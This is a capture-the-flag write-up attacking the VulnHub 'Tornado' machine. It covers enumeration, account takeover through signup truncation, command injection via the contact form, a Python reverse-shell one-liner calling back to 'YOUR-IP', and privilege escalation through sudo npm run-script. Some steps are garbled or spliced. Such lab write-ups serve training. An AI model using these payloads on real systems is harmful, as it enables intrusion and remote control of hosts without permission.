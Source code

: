 # Torando 
[Room Link](https://www.vulnhub.com/entry/ia-tornado,639/)

![image](https://user-images.githubusercontent.com/5285547/121968926-21f79300-cd6b-11eb-88a2-531041557970.png)


## Enumeration

Let's start with some enum!

### Nmap
```bash
nmap -p- -v 192.168.56.122
```

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Gobuster

```bash
gobuster dir -u http://192.168.56.122/  -w  /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x txt,html,gz,php,js,zip,img,bak -t 45
```

```bash
/index.html           (Status: 200) [Size: 10701]
/manual               (Status: 301) [Size: 317] [--> http://192.168.56.122/manual/]
/javascript           (Status: 301) [Size: 321] [--> http://192.168.56.122/javascript/]
/server-status        (Status: 403) [Size: 279]                                        
/bluesky              (Status: 301) [Size: 318] [--> http://192.168.56.122/bluesky/] 
```

bluesky? lets check it out

```bash
gobuster dir -u http://192.168.56.122/bluesky  -w  /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x txt,html,gz,php,js,zip,img,bak -t 45
```

```bash
/index.html           (Status: 200) [Size: 14979]
/login.php            (Status: 200) [Size: 824]  
/contact.php          (Status: 302) [Size: 2034] [--> login.php]
/about.php            (Status: 302) [Size: 2024] [--> login.php]
/signup.php           (Status: 200) [Size: 825]                 
/css                  (Status: 301) [Size: 322] [--> http://192.168.56.122/bluesky/css/]
gobuster dir -u http://192.168.56.122/  -w  /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x /imgs                 (Status: 301) [Size: 323] [--> http://192.168.56.122/bluesky/imgs/]
/js                   (Status: 301) [Size: 321] [--> http://192.168.56.122/bluesky/js/]  
/logout.php           (Status: 302) [Size: 0] [--> login.php]                            
/dashboard.php        (Status: 302) [Size: 2024] [--> login.php]                         
/port.php             (Status: 302) [Size: 2098] [--> login.php]   
```

Nice, we have a signup.php and login.php. Looks like a good place to start.  
Lets create an account and check the web app out. 

http://192.168.56.122/bluesky/

![image](https://user-images.githubusercontent.com/5285547/121968941-2d4abe80-cd6b-11eb-9c53-2be3f22bbcc6.png)

http://192.168.56.122/bluesky/signup.php

![image](https://user-images.githubusercontent.com/5285547/121969063-700c9680-cd6b-11eb-95eb-4f10ec2fa170.png)

After registering and going to login.php we get a dashbaord interface.

![image](https://user-images.githubusercontent.com/5285547/121969202-afd37e00-cd6b-11eb-9f1c-4a4443556bc1.png)

![image](https://user-images.githubusercontent.com/5285547/121969243-c11c8a80-cd6b-11eb-8e4b-d235c460b5ff.png)

![image](https://user-images.githubusercontent.com/5285547/121969267-d2659700-cd6b-11eb-996a-eea16e5413c9.png)

![image](https://user-images.githubusercontent.com/5285547/121969288-dee9ef80-cd6b-11eb-9461-ddcb1d8576e0.png)

Ok, so the contact form is not working and not much else is present apart from the hint for LFI. After testing I could not find any LFI vulnerability.  
Checking the source code of the web pages, we see one comment out of place on the portfolio.php page. 

```html
<!-- /home/tornado/imp.txt -->
```

Now the LFI makes sense, after trying a few variations we can get the working payload as

```bash
http://192.168.56.122/~tornado/imp.txt
```

![image](https://user-images.githubusercontent.com/5285547/121969565-7bac8d00-cd6c-11eb-882b-bd3585f0d9ba.png)

Now we have a list of what looks like varified users. Lets test the accounts and see if any have higher prividledges.
Using Burp community I captured the signup.php request and sent it to intruder so i can see if i can make the account on the list.  
It seemded none had extra access we see jacob@tornado, admin@tornado, hr@tornado are already registered.  
In the requests response I noticed a 'name:-13' element. On successful signup it was 'name:-15'

![image](https://user-images.githubusercontent.com/5285547/121970450-7d775000-cd6e-11eb-91c5-4eff2081d8b9.png)

I then tried to edit the source code with dev tools (F12) field to allow more charaters in the email field.
Changing the charate limit to 20 then trying again with 'jacob@tornado a' we can make a new acocunt. After now loggin in with jacob, 
the contact form works. 

![image](https://user-images.githubusercontent.com/5285547/121970990-a815d880-cd6f-11eb-9065-c3f320f98b6e.png)

![image](https://user-images.githubusercontent.com/5285547/121971000-b06e1380-cd6f-11eb-9535-e0f15dc61742.png)

Using tcpdump we can see if we get any ping back to our machine, which we do.

```bash
sudo tcpdump -i eth1
```

![image](https://user-images.githubusercontent.com/5285547/121971233-2e321f00-cd70-11eb-983c-5540275aede0.png)

## User

Looks like we can get a reverse connection. 

Payload
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR-IP",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
kill current terminal
```
Ctrl + z
```
echo raw stty then forground it
```
stty raw -echo;fg
```
select terminal
```
xterm
```
when you get the terminal back enter
```
export TERM=xterm
```

![image](https://user-images.githubusercontent.com/5285547/121971512-c3351800-cd70-11eb-8e80-f06ad6df8344.png)

Enumerating the system we quickly see our priv esc route on the machine. 

![image](https://user-images.githubusercontent.com/5285547/121972155-4acf5680-cd72-11eb-86d2-0ce04c48c006.png)


First i created an index.js file
cd /tmp
mkdir shell
echo 'module.exports = install could be dangerous' > index.js
cp index.js shell

Now we need a package.json file and chmod to make it executable, then we can run the sudo command to user.

```bash
sudo -u catchme npm run-script shell
```

![image](https://user-images.githubusercontent.com/5285547/121973542-6c7e0d00-cd75-11eb-9fd0-e5a514ec3277.png)

![image](https://user-images.githubusercontent.com/5285547/121973630-a3ecb980-cd75-11eb-9039-3ad591d17b11.png)

We see a 'enc.py'

```bash
s = "abcdefghijklmnopqrstuvwxyz"
shift=0
encrypted="hcjqnnsotrrwnqc"
#
k = input("Input a single word key :")
if len(k) > 1:
        print("Something bad happened!")
        exit(-1)

i = ord(k)
s = s.replace(k, '')
s = k + s
t = input("Enter the string to Encrypt here:")
li = len(t)
print("Encrypted message is:", end="")
while li != 0:
        for n in t:
                j = ord(n)
                if j == ord('a'):
                        j = i
                        print(chr(j), end="")
                        li = li - 1

                elif n > 'a' and n <= k:
                        j = j - 1
                        print(chr(j), end="")
                        li = li - 1
#----snip

Seeing this was a ceasar cipher i wrote a quick python script to guess the key for me. 

```python3
import string

alphabet = string.ascii_lowercase  # "abcdefghijklmnopqrstuvwxyz"
encrypted = "hcjqnnsotrrwnqc"  # message
enc_len = len(encrypted)  # msg length

for i in range(40):
    plain_text = ""
    for c in encrypted:
        if c.islower():
            # find the position in 0-25
            c_unicode = ord(c)
            c_index = ord(c) - ord("a")
            # perform the negative shift
            new_index = (c_index - i) % 26
            # convert to new character
            new_unicode = new_index + ord("a")
            new_character = chr(new_unicode)
            # append to plain string
            plain_text = plain_text + new_character
        else:
            # since character is not uppercase, leave it as it is
            plain_text += c
    print(f"ID:{i} - {plain_text}")
```

![image](https://user-images.githubusercontent.com/5285547/121975840-7b1af300-cd7a-11eb-8d84-897fb52460cb.png)

The password wasn't 100% and will require some guess work, but that's root and the last flag! 

![image](https://user-images.githubusercontent.com/5285547/121976051-ef559680-cd7a-11eb-9eeb-4a11cbfb7d92.png)


Hope you liked the guide. Happy hacking :)
